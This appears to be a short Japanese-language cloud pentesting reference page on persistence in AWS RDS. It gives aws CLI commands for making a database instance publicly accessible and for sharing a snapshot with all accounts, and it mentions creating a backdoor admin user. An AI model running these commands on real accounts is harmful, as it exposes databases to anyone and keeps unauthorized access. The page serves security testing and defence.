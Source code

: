 # AWS - RDS Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## RDS

詳細は以下を参照:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### インスタンスをパブリックに公開する: `rds:ModifyDBInstance`

この権限を持つ攻撃者は **既存の RDS インスタンスを変更して公開アクセスを有効にすることができます**。
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### DB内に管理者ユーザーを作成する

攻撃者は単に**DB内にユーザーを作成する**ことで、マスターユーザーのパスワードが変更されてもデータベースへのアクセスを**失わない**。

### スナップショットを公開する
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../../banners/hacktricks-training.md}}
